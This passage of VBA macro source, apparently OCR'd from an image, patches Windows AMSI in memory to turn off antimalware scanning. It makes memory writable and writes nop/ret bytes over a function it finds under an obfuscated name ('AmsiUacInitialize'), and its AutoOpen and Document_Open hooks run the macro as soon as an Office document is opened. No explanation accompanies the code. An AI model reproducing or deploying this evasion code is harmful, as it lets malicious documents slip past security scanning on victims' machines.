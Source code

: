 ```js
temp = VirtPro(ByVal Func_addr, 32, 64, 0)
patched ByVal (Func_addr), 1, ByVal ("&H" & "90")
patched ByVal (Func_addr + 1), 1, ByVal ("&H" & "C3")
temp = VirtPro(ByVal Func_addr, 32, old, 0)

If Is64 Then
    off = 352
Else
    off = 256
End If
Func_addr = GetPrAddr(lib, "Am" & Chr(115) & Chr(105) & "U" & Chr(97) & "c" & "Init" & Chr(105) & Chr(97) & "lize") - off
temp = VirtPro(ByVal Func_addr, 32, 64, old)
patched ByVal (Func_addr), 1, ByVal ("&H" & "90")
patched ByVal (Func_addr + 1), 1, ByVal ("&H" & "C3")
temp = VirtPro(ByVal Func_addr, 32, old, 0)

End Function

'macro name is test which calls the main method
Sub test()
 MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub
```
